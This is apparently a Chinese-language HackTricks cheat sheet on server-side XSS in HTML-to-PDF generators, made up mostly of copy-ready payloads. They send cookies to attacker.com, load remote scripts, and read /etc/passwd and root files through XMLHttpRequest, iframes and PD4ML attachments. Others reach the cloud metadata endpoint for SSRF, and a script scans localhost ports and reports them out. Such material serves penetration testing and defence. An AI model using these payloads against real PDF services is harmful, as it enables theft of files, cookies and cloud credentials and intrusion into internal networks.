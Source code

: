 # 服务器端 XSS（动态 PDF）

{{#include ../../banners/hacktricks-training.md}}

## 服务器端 XSS（动态 PDF）

如果一个网页使用用户控制的输入创建 PDF，你可以尝试**欺骗创建 PDF 的机器人**使其**执行任意 JS 代码**。\
因此，如果**PDF 创建机器人发现**某种**HTML** **标签**，它将会**解释**这些标签，你可以**利用**这种行为导致**服务器 XSS**。

请注意，`<script></script>` 标签并不总是有效，因此你需要使用不同的方法来执行 JS（例如，利用`<img`）。\
另外，请注意，在常规利用中，你将**能够查看/下载创建的 PDF**，因此你将能够看到你**通过 JS 写入的所有内容**（例如使用 `document.write()`）。但是，如果你**无法查看**创建的 PDF，你可能需要**通过网络请求提取信息**（盲注）。

### 常见 PDF 生成

- **wkhtmltopdf** 以其将 HTML 和 CSS 转换为 PDF 文档的能力而闻名，利用 WebKit 渲染引擎。该工具作为开源命令行实用程序可用，使其适用于广泛的应用。
- **TCPDF** 在 PHP 生态系统中提供了强大的 PDF 生成解决方案。它能够处理图像、图形和加密，展示了其创建复杂文档的多功能性。
- 对于在 Node.js 环境中工作的开发者，**PDFKit** 提供了一个可行的选择。它允许直接从 HTML 和 CSS 生成 PDF 文档，为网页内容和可打印格式之间提供了桥梁。
- Java 开发者可能更喜欢 **iText**，这是一个不仅促进 PDF 创建，还支持数字签名和表单填写等高级功能的库。其全面的功能集使其适合生成安全和互动的文档。
- **FPDF** 是另一个 PHP 库，以其简单性和易用性而著称。它旨在为寻求简单 PDF 生成方法的开发者设计，无需复杂的功能。

## Payloads

### 发现
```html
<!-- Basic discovery, Write something-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">

<!-- Using base HTML tag -->
<base href="http://attacker.com" />

<!-- Loading external stylesheet -->
<link rel="stylesheet" src="http://attacker.com" />

<!-- Meta-tag to auto-refresh page -->
<meta http-equiv="refresh" content="0; url=http://attacker.com/" />

<!-- Loading external components -->
<input type="image" src="http://attacker.com" />
<video src="http://attacker.com" />
<audio src="http://attacker.com" />
<audio><source src="http://attacker.com"/></audio>
<svg src="http://attacker.com" />
```
### SVG

任何之前或以下的有效负载都可以在此 SVG 有效负载中使用。一个 iframe 访问 Burpcollab 子域，另一个访问元数据端点，作为示例。
```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
<g>
<foreignObject width="800" height="500">
<body xmlns="http://www.w3.org/1999/xhtml">
<iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
<iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
</body>
</foreignObject>
</g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
xmlns="http://www.w3.org/2000/svg">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>
<script type="text/javascript">
// <![CDATA[
alert(1);
// ]]>
</script>
</svg>
```
您可以在 [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet) 找到许多 **其他 SVG 有效载荷**。

### 路径泄露
```html
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>
```
### 加载外部脚本

利用此漏洞的最佳方法是利用该漏洞使机器人加载您本地控制的脚本。然后，您将能够在本地更改有效负载，并使机器人每次都加载相同的代码。
```html
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>
```
### 读取本地文件 / SSRF

> [!WARNING]
> 将 `file:///etc/passwd` 更改为 `http://169.254.169.254/latest/user-data` 例如 **尝试访问外部网页 (SSRF)**。
>
> 如果允许 SSRF，但您 **无法访问** 有趣的域或 IP，[请查看此页面以获取潜在的绕过方法](../ssrf-server-side-request-forgery/url-format-bypass.md)。
```html
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```html
<script>
xhzeem = new XMLHttpRequest();
xhzeem.onload = function(){document.write(this.responseText);}
xhzeem.onerror = function(){document.write('failed!')}
xhzeem.open("GET","file:///etc/passwd");
xhzeem.send();
</script>
```

```html
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd">
<img src='x' onerror='document.write('<iframe src=file:///etc/passwd></iframe>')'/>&text=&width=500&height=500
<meta http-equiv="refresh" content="0;url=file:///etc/passwd" />
```

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```
### 机器人延迟
```html
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->
<script>
let time = 500;
setInterval(()=>{
let img = document.createElement("img");
img.src = `https://attacker.com/ping?time=${time}ms`;
time += 500;
}, 500);
</script>
<img src="https://attacker.com/delay">
```
### 端口扫描
```html
<!--Scan local port and receive a ping indicating which ones are found-->
<script>
const checkPort = (port) => {
fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
let img = document.createElement("img");
img.src = `http://attacker.com/ping?port=${port}`;
});
}

for(let i=0; i<1000; i++) {
checkPort(i);
}
</script>
<img src="https://attacker.com/startingScan">
```
### [SSRF](../ssrf-server-side-request-forgery/index.html)

这个漏洞可以很容易地转化为 SSRF（因为你可以让脚本加载外部资源）。所以只需尝试利用它（读取一些元数据？）。

### Attachments: PD4ML

有一些 HTML 2 PDF 引擎允许 **为 PDF 指定附件**，例如 **PD4ML**。你可以利用这个功能 **将任何本地文件附加到 PDF**。\
为了打开附件，我使用 **Firefox 打开文件并双击回形针符号** 以 **将附件存储为新文件**。\
使用 burp 捕获 **PDF 响应** 也应该 **在 PDF 中以明文显示附件**。
```html
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html>
<pd4ml:attachment
src="/etc/passwd"
description="attachment sample"
icon="Paperclip" />
</html>
```
## 参考文献

- [https://lbherrera.github.io/lab/h1415-ctf-writeup.html](https://lbherrera.github.io/lab/h1415-ctf-writeup.html)
- [https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/)
- [https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)
- [https://infosecwriteups.com/breaking-down-ssrf-on-pdf-generation-a-pentesting-guide-66f8a309bf3c](https://infosecwriteups.com/breaking-down-ssrf-on-pdf-generation-a-pentesting-guide-66f8a309bf3c)
- [https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-pdf-generators-a-complete-guide-to-finding-ssrf-vulnerabilities-in-pdf-generators](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-pdf-generators-a-complete-guide-to-finding-ssrf-vulnerabilities-in-pdf-generators)

{{#include ../../banners/hacktricks-training.md}}
